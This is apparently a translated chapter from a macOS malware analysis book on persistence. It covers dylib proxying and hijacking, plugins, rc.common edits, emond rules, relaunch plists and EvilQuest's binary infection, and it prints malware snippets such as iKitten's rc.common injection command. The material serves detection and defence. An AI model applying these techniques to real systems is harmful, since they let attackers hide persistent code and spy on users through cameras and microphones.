尽管我们尚未看到恶意软件滥用这种 dylib 代理技术，但安全研究人员（包括我自己）已经利用它来破坏各种应用程序。特别是，我曾滥用 Zoom 应用，访问用户的摄像头，并在每次用户打开视频会议应用时实现隐秘的持久性。让我们简要回顾一下针对 Zoom 的这一特定攻击的细节，因为它提供了一个实际的例子，说明攻击者或恶意软件如何实现隐秘的基于动态库的持久性。

尽管 Zoom 使用强化运行时编译其应用程序，通常可以防止动态库注入攻击，但旧版本包含 `com.apple.security.cs.disable-library-validation` 权限。此权限指示 macOS 禁用库验证，允许任意库加载到 Zoom 中。为了获取持久性，恶意软件可以代理 Zoom 的依赖项之一，例如其 SSL 库 *libssl.1.0.0.dylib*。恶意软件可以复制合法的 SSL 库，命名为 *libssl.1.0.0_COPY.dylib*，然后创建一个带有与原始 SSL 库相同名称的恶意代理库。这个恶意库将包含一个 `LC_REEXPORT_DYLIB` 加载命令，指向 SSL 库的副本。要查看此过程的实际情况，请查看 macOS 的 `otool` 输出，使用 `-l` 标志运行，列出恶意动态库的加载命令（图例 2-18）。

```
% **otool -l zoom.us.app/Contents/Frameworks/libssl.1.0.0.dylib** 
...
Load command 11
          cmd LC_REEXPORT_DYLIB 1
      cmdsize 96
         name /Applications/zoom.us.app/Contents/Frameworks/libssl.1.0.0_COPY.dylib 2
   time stamp 2 Wed Dec 31 14:00:02 1969
      current version 1.0.0
compatibility version 1.0.0
```

图例 2-18：代理动态库

请注意，此库包含一个重新导出指令 1，指向原始的 SSL 库 2。这确保了运行应用所需的 SSL 功能不会丢失。一旦恶意代理库就位，它将自动加载并在用户启动 Zoom 时执行其构造函数。现在，除了持久性外，恶意软件还可以访问 Zoom 的隐私权限，例如麦克风和摄像头权限，从而通过网络摄像头监视用户！

### Dylib 劫持

Dylib 劫持是 Dylib 代理的更隐蔽但更专用版本。在 *Dylib 劫持* 中，恶意软件可以利用试图从多个攻击者可写位置加载动态库的程序，或者对一个不存在的动态库有弱依赖的程序。在前一种情况下，如果主要位置不包含库，则应用程序将在第二位置搜索它。在这种情况下，恶意软件可以将自己安装为同名的恶意库，放在程序首先搜索的位置。例如，假设应用程序首先尝试从应用程序的 *Library/* 目录加载 *foo.dylib*，然后再从 */System/Library* 目录加载。如果 *foo.dylib* 在应用程序的 *Library/* 目录中不存在，攻击者可以在该位置添加同名的恶意库。这个恶意库将在运行时自动加载。

让我们看一个具体的例子。在某些较老版本的 macOS（包括 OS X 10.10）上，Apple 的 iCloud 照片流代理会尝试从 *iPhoto.app/Contents/Library/LoginItems/* 或 *iPhoto.app/Contents/Framework* 目录加载一个名为 *PhotoFoundation* 的动态库。由于该库出现在第二个目录，恶意软件可以将一个同名的恶意动态库植入主目录。在随后的启动中，代理首先会遇到并加载恶意动态库。由于该代理在每次用户登录时都会自动启动，这提供了一种非常隐蔽的持久化手段 (Listing 2-19)。

```
$ **reboot** 

$ **lsof -p** `<pid of Photo Stream Agent>`
. . .
/Applications/iPhoto.app/Contents/Library/LoginItems/PhotoFoundation.framework/Versions/A/PhotoFoundation
```

Listing 2-19: 一个动态库劫持器，PhotoFoundation，由 Apple 的照片流代理加载

如果一个程序存在对一个动态库的可选或*弱*依赖，并且该动态库不存在，它也可能容易受到 dylib 劫持。当依赖关系较弱时，程序始终会查找该动态库，但如果该库不存在，程序仍然可以执行。然而，如果恶意软件能够将恶意动态库放置在弱指定的位置，程序在后续启动时就会加载它。如果你有兴趣了解更多关于 dylib 劫持的内容，可以查看我在这个主题上的研究论文《OS X 上的 dylib 劫持》或《通过 Mach-O 二进制操作进行 MacOS dylib 注入》^(13)。

尽管目前尚未发现 Mac 恶意软件利用这一技术在现实环境中进行持久化，但后渗透代理 EmPyre 有一个利用 dylib 劫持的持久化模块 (Listing 2-20)：^(14)

```
import base64
class Module:

    def __init__(self, mainMenu, params=[]):

        # metadata info about the module, not modified during runtime
        self.info = {
            # name for the module that will appear in module menus
            'Name': 'CreateDylibHijacker',

 # list of one or more authors for the module
            'Author': ['@patrickwardle,@xorrior'],

            # more verbose multi-line description of the module
            'Description': ('Configures and EmPyre dylib for use in a Dylib hijack, given the 
            path to a legitimate dylib of a vulnerable application. The architecture of the 
            dylib must match the target application. The configured dylib will be copied local 
            to the hijackerPath'),

            # True if the module needs to run in the background
            'Background' : False,

            # File extension to save the file as
            'OutputExtension' : "",

            'NeedsAdmin' : True,

            # True if the method doesn't touch disk/is reasonably opsec safe
            'OpsecSafe' : False,

            # list of any references/other comments
            'Comments': [
                'comment',
                'https://www.virusbulletin.com/virusbulletin/2015/03/dylib-hijacking-os-x'
            ]
        }
```

Listing 2-20: 一个 dylib 劫持持久化模块，*CreateHijacker.py*（EmPyre）

这些 dylib 劫持技术仅对特定脆弱的应用程序有效，也就是说，只有那些在多个位置查找动态库或具有弱、不存在的依赖关系的程序才会受到影响。此外，如果恶意软件希望利用这一技术实现持久化，那么这些脆弱的程序必须是自动启动的或常常被启动的。最后，在较新的 macOS 版本中，像硬化运行时这样的缓解措施可能会最小化所有 dylib 注入的影响，因为这些保护机制会通用地防止加载任意动态库。

## 插件

许多 Apple 守护进程和第三方应用程序设计上都支持插件或扩展，无论是动态库、包还是其他各种文件格式。虽然插件可以合法地扩展程序的功能，但恶意软件可能会滥用这些功能，在进程上下文中实现隐蔽的持久化。如何实现？通常通过创建一个兼容的插件并将其安装到程序的插件目录中。

例如，所有现代浏览器都支持插件或扩展，这些插件或扩展在每次浏览器启动时会自动执行，为恶意代码提供了一个便捷的持久化方式。此外，这些插件直接访问用户的浏览会话，使恶意代码（如广告软件）能够显示广告、劫持流量、提取保存的密码等。

这些扩展可以非常隐蔽地运行。考虑恶意浏览器扩展 Pitchofcase，如图 2-3 所示。在一篇报道中，安全研究员 Phil Stokes 指出，“乍一看，Pitchofcase 看起来像任何其他广告软件扩展：启用时，它会将用户搜索通过一些按点击付费的地址重定向，最后跳转到 *pitchofcase.com*。该扩展在后台隐形运行，没有工具栏按钮或其他交互方式。”^(15) 此外，Phil 还指出，如果点击图 2-3 中的卸载按钮，浏览器扩展实际上并不会被卸载。



图 2-3：恶意浏览器扩展（广告软件）

近期的恶意浏览器扩展示例包括 Shlayer、Bundlore 和 Pirrit。后者尤其值得注意，因为它是首个原生针对苹果新发布的 M1 芯片的恶意软件，该芯片于 2020 年发布。^(16)

当然，恶意软件也可以以类似的方式颠覆其他类型的应用程序。例如，在“iTunes 恶意插件概念验证”博客文章中，安全研究员 Pedro Vilaça 说明了攻击者如何迫使 iTunes 在 OS X 10.9 上加载恶意插件。因为用户可以写入 iTunes 插件文件夹，Vilaça 观察到“一个特洛伊木马投放器可以轻松加载恶意插件。或者它可以作为[一个] RAT 的通信通道。”^(17) 在此基础上，Vilaça 描述了恶意软件如何颠覆 iTunes 来窃取用户凭证，但恶意插件也可以提供持久性，因为它会在每次启动 iTunes 时自动加载和执行。

最后，各种 Apple 守护进程支持第三方插件，包括用于授权、目录服务、QuickLook 和 Spotlight 的插件，恶意软件可以利用这些插件实现隐蔽的持久性。^(18) 尽管如此，每个新的 macOS 版本都通过权限、代码签名检查、沙箱以及其他安全功能继续限制插件的影响。也许由于它们的影响越来越有限，目前尚无已知恶意软件滥用这些插件来实现持久性。

## 脚本

Mac 恶意软件可能会修改各种系统脚本以实现持久化。其中一个脚本是位于*/etc*中的*rc.common*文件。在旧版本的 macOS 中，这个 shell 脚本在启动过程中执行，使得恶意软件可以将任意命令插入其中，在系统启动时执行。例如，iKitten 恶意软件使用一个名为`addToStartup`的方法滥用此文件，该方法将恶意 shell 脚本的路径作为唯一参数传递并保持其持久性（清单 2-21）。

```
-[AppDelegate addToStartup:(NSString*)item] { 

  name = [item lastPathComponent];
  cmd  = [NSString stringWithFormat:@"if cat /etc/rc.common | grep %@; then sleep 1; 
              else echo 'sleep %d && %@ &' >> /etc/rc.common; fi", name, 120, item]; 1
  [CUtils ExecuteBash:command]; 2
  ...
}
```

清单 2-21：为了持久化而修改*rc.common*文件（iKitten）

该方法构建了一个命令，其逻辑首先检查*rc.common*文件中是否已存在该 shell 脚本的名称。如果没有，`else`逻辑将把脚本附加到文件的末尾。然后，通过调用名为`ExecuteBash`的方法执行该命令。

其他可能用于持久化篡改的脚本可能是特定于应用程序的。例如，shell 初始化脚本，如*.bashrc*或*.bash_profile*，可能会在用户启动 shell 时自动执行。^(19) 虽然修改这些脚本为持久化提供了一个潜在途径，但这种持久化依赖于应用程序的执行，因此如果用户没有启动 shell，持久化就不会发生。

## 事件监视规则

Jonathan Levin 的**《OS Internals》**第一卷描述了 Mac 恶意软件如何可能滥用事件监视守护进程（`emond`）实现持久化。^(20) 由于操作系统在系统启动时自动启动`emond`，处理并执行任何指定的规则，恶意软件可以简单地创建一个规则，使得守护进程自动执行。你可以在*/etc/emond.d/rules*或*/private/var/db/emondClients*目录中找到`emond`将要执行的规则。目前，尚无已知恶意软件利用此类规则实现持久化。

## 重新打开的应用程序

Mac 用户可能熟悉以下提示框，它会在退出时显示（图 2-4）。



图 2-4：重新打开应用程序提示

如果勾选了该框，macOS 将在下次登录时自动重新启动所有正在运行的应用程序。在后台，它将要重新打开的应用程序存储在名为*com.apple.loginwindow.<UUID>.plist*的属性列表中，该列表位于*~/Library/Preferences/ByHost*目录下。路径中的 UUID 是系统硬件的唯一标识符。使用 macOS 的`plutil`，你可以查看此属性列表的内容（清单 2-22）：

```
% **plutil -p ~/Library/Preferences/ByHost/com.apple.loginwindow.151CA171-718D-592B-B37C-ABB9043C4BE2.plist**
{
  "TALAppsToRelaunchAtLogin" => 
    0 => {
      "BackgroundState" => 2
      "BundleID" => "com.apple.ichat"
      "Hide" => 0
      "Path" => "/System/Applications/Messages.app"
    }
    1 => {
      "BackgroundState" => 2
      "BundleID" => "com.google.chrome"
      "Hide" => 0
      "Path" => "/Applications/Google Chrome.app"
    }
}
```

清单 2-22：重新打开的应用程序属性列表

如你所见，文件包含了各种键/值对，包括捆绑标识符和应用程序重新启动的路径。虽然没有已知的恶意软件以这种方式持续存在，但它可能会直接将自身添加到这个属性列表中，从而在用户下次登录时自动重新执行。为了确保持续的持久性，恶意软件监控这个 plist 并在需要时重新添加自己是明智的做法。

## 应用程序和二进制文件修改

隐秘的恶意软件可能通过修改感染系统上的合法程序，确保启动这些程序时运行恶意代码，从而实现持久性。在 2020 年初，安全研究员 Thomas Reed 发布了一份报告，突出了针对 macOS 的广告软件的复杂性。在这份报告中，他指出，广泛传播的广告软件 Crossrider 通过破坏 Safari 浏览器来保持各种恶意浏览器扩展的持久性。通过创建修改版的应用程序，Crossrider 使得每当用户打开浏览器时，恶意的 Safari 扩展会被启用，而无需用户采取任何操作。然后它删除了这个修改过的 Safari 副本，Reed 写道，“让真正的 Safari 副本误以为它安装并启用了几个额外的浏览器扩展。”^([21)

2020 年初的另一个例子，EvilQuest 结合了几种持久性技术。该恶意软件最初作为启动项存在，但也通过病毒传播感染系统中的多个二进制文件。此措施确保即使用户删除了启动项，恶意软件仍能保持持久性！这种病毒性持久性在 macOS 上很少见，因此值得仔细观察。当最初执行时，EvilQuest 会生成一个新的后台线程来查找并感染其他二进制文件。负责生成候选列表的函数被形象地命名为`get_targets`，而感染函数则叫做`append_ei`。你可以在以下反汇编中看到这些内容（列表 2-23）。

```
ei_loader_thread:
0x000000010000c9a0         push       rbp
0x000000010000c9a1         mov        rbp, rsp
0x000000010000c9a4         sub        rsp, 0x30
0x000000010000c9a8         lea        rcx, qword [is_executable]
...
0x000000010000c9e0         call     1 get_targets
0x000000010000c9e5         cmp        eax, 0x0
0x000000010000c9e8         jne        leave
...
0x000000010000ca17         mov        rsi, qword [rax] 
0x000000010000ca1a         call     2 append_ei
```

列表 2-23: 病毒感染逻辑（EvilQuest）

如图所示，通过`get_targets`函数 1 找到的每个候选可执行文件都会传递给`append_ei`函数 2。`append_ei`函数将恶意软件的副本插入到目标二进制文件的开头，然后将原始目标字节重写到文件的末尾。最后，它在文件末尾添加一个尾部，包含一个感染标记`0xdeadface`，以及指向原始目标字节的文件偏移量。我们将在第十一章进一步讨论这个过程。

一旦恶意软件通过完全插入自身到文件的开头感染了一个二进制文件，它将在任何人执行该文件时运行。当它运行时，首先检查其主要的持久化机制——启动项是否被删除；如果删除了，它会替换其恶意的启动项。为了避免被检测到，恶意软件还会通过解析尾部来执行原始文件的内容，以获取文件原始字节的位置。这些字节随后会被写入到一个新的文件中，命名为 *<originalfilename>1*，然后恶意软件执行这个文件。

## KnockKnock . . . 谁在那儿？

如果你有兴趣了解在你的 macOS 系统上持续安装了哪些软件或恶意软件，我为此目的创建了一个免费的开源工具。KnockKnock 会告诉你谁在那儿，通过查询系统中利用本章讨论的多种持久化机制的任何软件 (图 2-5)。^(22) 值得指出的是，由于合法软件也会持久存在，KnockKnock 显示的绝大多数（如果不是全部）项目将是完全无害的。



图 2-5：KnockKnock？谁在那儿？. . . 希望只有合法软件！

## 下一步

在本章中，我们讨论了 macOS 恶意软件可以滥用的多种持久化机制，以维持对感染系统的访问。为了全面性，我们还讨论了几种恶意软件在野外尚未利用的可能持久化方法。

创建一个真正全面的持久化方法列表很可能是一项徒劳的工作。首先，苹果已经弃用了几种非常过时的持久化方式，例如通过 *StartupParameters.plist* 文件，因此这些方法在最近版本的 macOS 中不再有效。这就是为什么我在本章中没有涉及这些方法。其次，Mac 恶意软件作者是一个富有创意的群体。尽管我们已经揭示了许多持久化方法，但我们如果认为恶意软件作者只会使用这些方法，那就太天真了。他们肯定会找到新的或创新的方式来保持他们的恶意创作！

如果你有兴趣了解更多关于持久化的方法，包括已经不再有效的历史方法以及本书出版后发现的方法，建议你查看以下资源：

+   “持久化，”MITRE ATT&CK，[`attack.mitre.org/tactics/TA0003/`](https://attack.mitre.org/tactics/TA0003/)

+   “超越老旧的 LaunchAgents，” Theevilbit 博客，[`theevilbit.github.io/beyond/beyond_intro/`](https://theevilbit.github.io/beyond/beyond_intro/)

+   “Mac OS X 上的恶意软件持久化方法，”《病毒公报》，[`www.virusbulletin.com/uploads/pdf/conference/vb2014/VB2014-Wardle.pdf`](https://www.virusbulletin.com/uploads/pdf/conference/vb2014/VB2014-Wardle.pdf)

在下一章中，我们将探讨恶意软件在持续感染 Mac 系统后，所追求的目标。

## 参考文献
